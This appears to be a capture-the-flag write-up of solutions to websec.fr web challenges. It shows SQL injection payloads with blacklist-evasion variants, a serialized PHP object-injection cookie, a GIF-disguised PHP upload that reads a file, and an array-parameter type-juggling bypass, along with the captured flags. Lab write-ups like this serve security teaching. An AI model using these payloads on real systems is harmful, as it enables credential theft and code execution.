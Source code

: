 ## websec.fr solutions
### level01

Payload

```
1/**/union/**/select/**/null,password/**/from/**/users/**/limit/**/2,1;--
Other User Details:
```

Response

```
WEBSEC{Simple_SQLite_Injection}
```

### level02

Payload

```
1/**/uniunionon/**/selselectect/**/null,password/**/frfromom/**/users;--
```

Response

```
WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}
```

### level04

There is a PHP object injection vulnerability in the `leet_hax0r` cookie.

We first create a malicious serialized object: `O:3:"SQL":1:{s:5:"query";s:49:"SELECT password as username FROM users WHERE id=1";}`

Then we base64 encode it and set it as the cookie: `TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6Mzc6IlNFTEVDVCBwYXNzd29yZCBGUk9NIHVzZXJzIFdIRVJFIGlkPTEiO30=`

After refreshing the page, we get the flag: `WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}`


### level08

```php
GIF89a1 <?php echo file_get_contents("flag.txt"); ?>
```

Flag: `WEBSEC{BypassingImageChecksToRCE}`

### level17

Change `flag=` in POST request to `flag[]=`

Flag: `WEBSEC{It_seems_that_php_could_use_a_stricter_typing_system}`

### level25

`TBD`

Source

```
<?php

parse_str(parse_url($_SERVER['REQUEST_URI'])['query'], $query);

foreach ($query as $k => $v)
    if (stripos($v, 'flag') !== false)
        die('You are not allowed to get the flag, sorry :/');

include $_GET['page'] . '.txt';

?>
```

- Php wrappers won't work since we are required to put "flag" in the value for the parameter.
- Tried [this](https://security.stackexchange.com/questions/17407/how-can-i-use-this-path-bypass-exploit-local-file-inclusion) attack but got `414 Request-URI Too Large`.
